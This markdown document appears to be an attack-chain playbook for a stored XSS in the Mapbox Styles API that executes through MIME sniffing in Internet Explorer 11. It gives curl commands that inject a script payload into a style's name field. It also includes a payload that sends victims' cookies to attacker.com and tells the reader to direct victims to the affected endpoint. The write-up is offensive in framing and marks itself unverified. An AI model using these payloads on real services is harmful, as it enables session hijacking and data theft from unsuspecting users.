

# Stored XSS in Mapbox Styles API Leading to JavaScript Execution in IE11

Multi-stage attack chain demonstrating a complete attack workflow exploiting stored XSS in the Mapbox Styles API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., for API interaction)
- Internet Explorer 11 (for triggering)

### Target Environment

- Web platform
- Mapbox Styles API service on api.mapbox.com
- No specific ports required (HTTPS/443)
- Network access to public API endpoints

### Initial Access Requirements

- Valid Mapbox API access token (for authenticated style creation)
- Public access to styles for retrieval
- Victim using IE11 browser

## Detailed Attack Procedures

### Step 1: Inject Stored XSS Payload
procedure: [[procedures/Inject-Stored-XSS-Payload-in-Mapbox-Styles-Name]]

**Objective**: Store a malicious JavaScript payload in the Styles name field via the API, persisting it on Mapbox servers for later retrieval.

**Instructions**: Use a tool like curl or Postman to send a POST request to the Styles API endpoint with the malicious payload in the name field. For example, inject `<script>alert('XSS')</script>` or a more advanced payload like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`.

```bash
curl -X POST "https://api.mapbox.com/styles/v1/{username}/{style_id}?access_token={token}" \
  -H "Content-Type: application/json" \
  -d '{"name": "<script>alert(\"XSS\");</script>"}'
```

**Expected Output**: HTTP 200 response confirming style creation, with the payload stored server-side.

**Success Indicators**:
- Style created successfully without sanitization errors
- Payload reflected in API response or dashboard

### Step 2: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-via-JSON-MIME-Confusion-in-IE11]]

**Objective**: Retrieve the affected style in IE11, exploiting the missing X-Content-Type-Options header to cause MIME confusion, interpreting JSON as HTML and executing the injected script in the victim's browser.

**Instructions**: Direct the victim (or use IE11 yourself for testing) to access the style via the GET endpoint, e.g., `https://api.mapbox.com/styles/v1/{username}/{style_id}?access_token={token}`. The JSON response lacks the nosniff header, so IE11 sniffs the content as HTML, parsing and executing the script in the name field.

```bash
# Simulate retrieval (victim accesses via browser)
curl -X GET "https://api.mapbox.com/styles/v1/{username}/{style_id}?access_token={token}" \
  -H "User-Agent: Mozilla/5.0 (compatible; MSIE 11.0; Windows NT 10.0)"
```

**Expected Output**: In IE11, the browser executes the script, e.g., popping an alert or sending data to attacker server.

**Success Indicators**:
- Script execution observed (alert, network request to attacker)
- No execution in modern browsers due to proper MIME handling

## Attack Chain Summary

### Key Achievements

1. Successful injection of unsanitized JavaScript into persistent storage
2. Exploitation of legacy browser behavior for client-side code execution
3. Potential for session hijacking or data theft limited to IE11 users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
